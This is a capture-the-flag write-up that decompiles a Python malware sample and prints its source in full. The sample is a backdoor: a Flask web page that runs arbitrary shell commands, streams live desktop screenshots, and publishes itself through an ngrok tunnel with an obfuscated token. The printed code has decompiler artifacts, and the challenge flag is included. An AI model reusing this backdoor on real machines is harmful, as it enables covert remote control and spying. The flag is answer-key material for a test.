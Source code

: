 ## Name: Brain Melt 2
#### Category: Malware
#### Difficulty: Medium
#### Description: We'll skip Pyinstxtractor this time so it should be easy right? Note, the archive password is infected and the flag format varies slightly from the hexidecimal and length format. 

## Procedure
run ```file brain-melt-2.pyc``` command<br>

output ```brain-melt-2.pyc: Byte-compiled Python module for CPython 3.8, timestamp-based, .py timestamp: Tue May 21 21:08:49 2024 UTC, .py size: 4963 bytes```<br>

For pyc file we need to recover the python code, i always use pycdc tool for it, you can download pycdc from ```https://github.com/zrax/pycdc```, then just run ```./pycdc ~/brain-melt-2.pyc > brain.py```.<br>

### Brain-melt-2.py content
1) decrypt1, decrypt2, and decrypt3 functions are defined to decrypt various parts of a string to generate a key.<br>
2) deobfuscate function combines the results of the three decryption functions to form a key.<br>
3) ngrok_tunnel sets up an ngrok tunnel using this key.<br>
4) Desktop function takes a PIL image and prepares it to be sent as a JPEG file.<br>
5) execute function runs a shell command and flashes the output to the web interface.<br>

```
# Source Generated with Decompyle++
# File: brain-melt-2.pyc (Python 3.8)

from flask import Flask, flash, request, render_template_string, send_file, redirect
from wtforms import Form, StringField, validators, StringField, SubmitField
import subprocess
import pyautogui
import io
from PIL import Image
from Crypto.Cipher import Salsa20
from pyngrok import ngrok
import base65
DEBUG = True
app = Flask(__name__)
app.config['SECRET_KEY'] = '9EQrXQ88pwP7UWaXbkmThhKuDdYxsad1'

#def decrypt1(    ):
#         = ''
#    for      in range(0, len(    ), 2):
#             = str(    [    :     + 2] + '==')
#             += str(base64.b64decode(    ).decode('ascii'))
#    return
def decrypt1(encrypted_str):
    decoded_str = ''
    for i in range(0, len(encrypted_str), 2):
        encoded_chunk = encrypted_str[i:i + 2] + '=='
        decoded_str += base64.b64decode(encoded_chunk).decode('ascii')
    return decoded_str

def decrypt2(a1, a2):
    result = ''
    for character in a1:
        a2 = 9
        tempcharaddedr = 'temporary value'
        result += chr(((ord(character) - ord('a')) + a2) % 26 + ord('a'))
    return result


def decrypt3(s1, key):
    msg_nonce = s1[:8]
    ciphertext = s1[8:]
    key = glob_key
    ab = key
    cipher = Salsa20.new(key.encode('utf-8'), msg_nonce, **('key', 'nonce'))
    return cipher.decrypt(ciphertext_obfuscation_padding).decode('utf-8')


def deobfuscate():
    part1 = decrypt1('ZgbAYQZwewMAOAZQOQYwYwNQYgMA')
    part2 = decrypt2('fwvcttjsfvrshwsg', 17)
    part3 = decrypt3(b'\x97p#2\x1abw\x0f\x9a\xd1Z\x04b\x93\xa1h8]\xab\xa3\x9e7\xc9\xe8\x9b', '25dbd4f362f7d0e64b24ab231728a1fc')
    key = part1 + part2 + part3
    return key


def ngrok_tunnel():
    ngrok.set_auth_token(deobfuscate())
    http_tunnel = ngrok.connect(5000, 'http')


def Desktop(pil_img):
    img_io = io.BytesIO()
    pil_img.save(img_io, 'JPEG', 70, **('quality',))
    img_io.seek(0)
    return send_file(img_io, 'image/jpeg', **('mimetype',))


def execute(cmd):
    child = subprocess.Popen(cmd, True, subprocess.PIPE, subprocess.PIPE, **('shell', 'stdout', 'stderr'))
    for line in child.stdout:
        print(line)
        l = line.decode('utf-8', 'ignore', **('encoding', 'errors'))
        flash(l)
    for line in child.stderr:
        l = line.decode('utf-8', 'ignore', **('encoding', 'errors'))
        flash(l)


class CommandForm(Form):
    command = StringField('Command:', [
        validators.required()], **('validators',))
    
    def display():
        form = CommandForm(request.form)
        print(form.errors)
        if request.method == 'POST':
            command = request.form['command']
        if form.validate() and request.method == 'POST':
            result = execute(command)
            flash(result)
        else:
            flash('Please enter a command.')
        return render_template_string('<!doctype html>\n                <html>\n                    <head>\n                        <link rel="stylesheet" href="css url"/>\n                            </head>\n                                <body>\n                                    <form action="" method="post" role="form">\n                                        <div class="form-group">\n                                              <label for="Command">Command:</label>\n                                              <input type="text" class="form-control" id="command" name="command"></div>\n                                              <button type="submit" class="btn btn-success">Submit</button>\n                                              </form>\n                                            {% for message in get_flashed_messages() %}\n                                            <p>{{ message }}</p>\n                                            {% endfor %}\n                                            <img src="/images/desktop.jpg" id="img" width="100%" scrolling="yes" style="height: 100vh;"></iframe>\n                                </body>\n                            \n                            {% block javascript %}\n                            <script type="text/javascript">\n                            window.onload = function() {\n                                var image = document.getElementById("img");\n\n                                function updateImage() {\n                                    image.src = image.src.split("?")[0] + "?" + new Date().getTime();\n                                }\n\n                                setInterval(updateImage, 1000);\n                            }\n                            </script>\n                            {% endblock %}\n                            </html>\n                        ', form, **('form',))

    display = app.route('/', [
        'GET',
        'POST'], **('methods',))(display)


def serve_img():
    screenshot = pyautogui.screenshot()
    return Desktop(screenshot)

serve_img = app.route('/images/desktop.jpg')(serve_img)
if __name__ == '__main__':
    glob_key = '24a0b299984ee8da7aae14b7163e2e63'
    ngrok_tunnel()
    app.run('0.0.0.0', **('host',))

```
<br>

then we can emulate the code, and it will return us the flag

<img width="874" alt="Screenshot 2024-05-26 at 00 17 23" src="https://github.com/sp34rh34d/CTF-writeups/assets/94752464/377ba6f8-cd8d-4a9a-8dbd-0cf37f348ac1">

flag ```flag{08e9cc5b0wnmtkkajwmijynjx3a415bd9a8024930}```
